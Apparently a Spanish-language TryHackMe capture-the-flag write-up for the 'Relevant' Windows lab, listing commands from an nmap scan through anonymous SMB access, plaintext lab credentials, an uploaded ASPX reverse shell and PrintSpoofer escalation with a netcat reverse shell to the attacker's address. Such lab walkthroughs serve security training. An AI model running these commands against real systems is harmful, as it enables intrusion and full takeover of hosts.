





TryHackMe
Medium
Windows
SMB
ASPX
IIS
PrintSpoofer
SeImpersonatePrivilege
Relevant
Share SMB con credenciales en texto plano; shell ASPX subida a SMB servida por IIS; PrintSpoofer a SYSTEM.
cat4clysm
Herramientas utilizadas
nmap
smbclient
netcat
impacket
Scanning
root@kali:~$
nmap -sC -sV -p 80,135,445,139,3389 -n 10.10.56.135 -oN targeted
SMB - Lectura de credenciales
root@kali:~$
smbclient -L 10.10.56.135 -N
smbclient -N //10.10.56.135/nt4wrksv

Bill: Juw4nnaM4n420696969!$$$
Bob: !P@$$W0rD!123Explotacion - ASPX Shell via SMB
root@kali:~$
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
smbclient //10.10.106.15/nt4wrksv -U 'Bill%Juw4nnaM4n420696969!$$$'
put shell.aspx
nc -lvp 4444Accedemos a http://10.10.106.15:49663/nt4wrksv/shell.aspx
type C:\Users\Bob\Desktop\user.txtEscalada - PrintSpoofer
root@kali:~$
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
sudo impacket-smbserver a .cd C:\Windows\Temp
copy \\10.2.36.179\a\nc.exe .
copy \\10.2.36.179\a\PrintSpoofer64.exe .
PrintSpoofer64.exe -c "nc.exe 10.2.36.179 5555 -e cmd"

Lecciones aprendidas
- Los shares SMB publicos pueden contener archivos con credenciales en texto plano.
- Si IIS sirve archivos desde el mismo directorio que SMB, podemos subir y ejecutar shells.
- PrintSpoofer es eficaz para escalar de SeImpersonatePrivilege a SYSTEM en Windows moderno.